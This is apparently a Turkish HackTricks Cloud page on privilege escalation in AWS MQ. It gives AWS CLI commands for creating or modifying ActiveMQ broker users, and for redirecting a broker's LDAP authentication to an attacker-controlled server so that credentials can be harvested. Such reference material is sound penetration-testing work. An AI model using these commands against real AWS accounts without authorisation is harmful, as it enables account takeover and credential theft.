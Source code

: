 # AWS - MQ Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## MQ

MQ hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Bu izinlerle **bir ActimeMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz): 

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Olası Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Bu izinlerle **ActiveMQ broker'ında yeni bir kullanıcı oluşturabilirsiniz** (bu RabbitMQ'da çalışmaz):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Olası Etki:** ActiveMQ üzerinden hassas bilgilere erişim

### `mq:ListBrokers`, `mq:UpdateBroker`

Eğer bir broker **ActiveMQ** ile yetkilendirme için **LDAP** kullanıyorsa, **saldırgan tarafından kontrol edilen** bir LDAP sunucusunun **konfigürasyonunu değiştirmek** mümkündür. Bu şekilde saldırgan, **LDAP üzerinden gönderilen tüm kimlik bilgilerini çalabilir**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Eğer ActiveMQ tarafından kullanılan orijinal kimlik bilgilerini bir şekilde bulabilirseniz, bir MitM gerçekleştirebilir, kimlik bilgilerini çalabilir, bunları orijinal sunucuda kullanabilir ve yanıtı gönderebilirsiniz (belki çalınan kimlik bilgilerini yeniden kullanarak bunu yapabilirsiniz).

**Olası Etki:** ActiveMQ kimlik bilgilerini çalmak

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
